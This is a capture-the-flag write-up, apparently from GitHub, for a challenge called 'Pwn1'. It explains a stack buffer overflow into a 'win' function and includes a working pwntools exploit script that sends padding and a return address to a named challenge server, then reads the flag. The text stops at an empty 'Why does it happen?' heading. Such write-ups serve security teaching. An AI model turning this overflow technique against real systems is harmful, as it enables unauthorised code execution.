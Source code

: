 # Pwn1
We are given a connection to a server<br>
First of all we want to decompile the binary. <br>
In <i>main</i> function the program takes input from user then returns fake flag. <br>
![preview](images/1.png)

We can also see that there is another function called <i>win</i> which returns shell. <br>
![preview](images/2.png)
### Solution
This code takes 80 bytes from user and tries to put it in 64 byte char table. That leads to overflow and we can use it to redirect code execution to <i>win</i> function. <br>
So we can just enter payload consisting of 72 bytes of padding and 8 bytes long address of <i>win</i> function<br> to overwrite instruction pointer and redirect code execution <br>
![preview](images/3.png)<br>
### Code
```
from pwn import *

host = 'challs.n00bzunit3d.xyz'
port = '35932'

context.binary = 'pwn1'

padding = 72*'a'
address = pack(0x40124a)
payload = padding.encode('utf-8') + address

conn = remote(host,port)

conn.sendline(payload + b'cat flag.txt')
print(conn.recv())
print(conn.recv())
print(conn.recv())
```
### Why does it happen?
